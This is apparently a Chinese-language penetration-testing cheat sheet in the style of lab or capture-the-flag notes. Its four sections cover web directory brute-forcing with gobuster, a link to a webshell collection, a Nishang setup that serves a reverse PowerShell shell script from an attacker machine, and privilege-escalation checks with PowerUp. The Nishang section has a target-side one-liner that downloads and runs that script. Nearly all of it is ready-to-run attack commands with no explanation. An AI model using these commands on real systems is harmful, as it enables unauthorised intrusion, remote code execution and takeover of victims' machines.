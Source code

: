 # 1、web目录猜解

```bash
gobuster -w directory-list-2.3-medium.txt -t 100 -u http://10.10.10.10/
```

# 2、webshell合集

https://github.com/tennc/webshell

# 3、Nishang

powershell反弹shell

本机上执行：
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.11 -Port 443' >> Invoke-PowerShellTcp.ps1
python3 -m http.server 80
```
靶机上执行：

```bash
Powershell -c iex(new-object net.webclient).downloadstring('http://10.10.10.11/Invoke-PowerShellTcp.ps1’)

```

# 4、PowerUp.ps1
powershell版windows提权检测工具

```bash
powershell -ExecutionPolicy Bypass
Import-Module ./PowerUp.ps1
Invoke-AllChecks
```
